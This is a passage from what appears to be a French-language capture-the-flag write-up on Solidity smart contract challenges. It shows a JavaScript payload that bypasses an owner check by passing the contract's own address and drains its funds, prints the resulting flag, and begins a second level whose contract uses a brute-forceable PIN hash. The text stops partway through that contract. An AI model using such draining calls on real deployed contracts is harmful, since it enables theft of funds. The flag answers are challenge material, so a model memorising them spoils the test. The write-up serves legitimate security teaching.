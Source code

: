 ```js
require(keccak256(abi.encodePacked(address(this))) == keccak256(abi.encodePacked(_contractOwner)));
```

Il faut que le paramètre `_contractOwner`, soit égale à `address(this)`. Le `this`correspond au smart contract lui-même. Le `address(this)` correspond alors à l'adresse du smart contract. Nous connaissons déjà cette adresse puisqu'elle est donnée dans le challenge.

> Autre moyen de la retrouver:
>
> ```js
> contract.address
> --> "0x57A10FC74a52afDE6674C3DE0761ed021d4534f7"
> ```

```js
// avant
contract.funds((err,res)=>{console.log(err,res);});
--> 102

// payload
contract.getDonationsFromOwner("0x57A10FC74a52afDE6674C3DE0761ed021d4534f7",(err,res)=>{console.log(err,res);});

// après
contract.funds((err,res)=>{console.log(err,res);});
--> 0
```

> Il faut patienter quelques secondes avant que la transaction soit validée (attendre la notification de MetaMask).

Le smart contract a été dépouillé. On peut alors récupérer notre flag en appuyant sur Check.

`SANTA{!!S0Lidi7y_BaSiCs!!}`

# Level 2 - PiggyBank

**Points**: 200

---

```js
pragma solidity ^0.4.21;

contract PiggyBank {
    bool public isOwner = false;
    uint256 public funds;
    bytes32 private pinHash = 0x7d8db9357f1302f94064334778507bb7885244035ce76b16dc05318ba7bf624c;
    
    constructor() public payable {
        funds = funds + msg.value;
    }
    
    function() external payable {
        funds = funds + msg.value;
    }
    
    function unlockPiggyBank(uint256 pin) external {
        if((keccak256(abi.encodePacked(uint8(pin))) == pinHash)){
        isOwner = true;
        }    
    }

    function withdrawPiggyBank() external {
        require(isOwner == true);
        msg.sender.transfer(funds);
```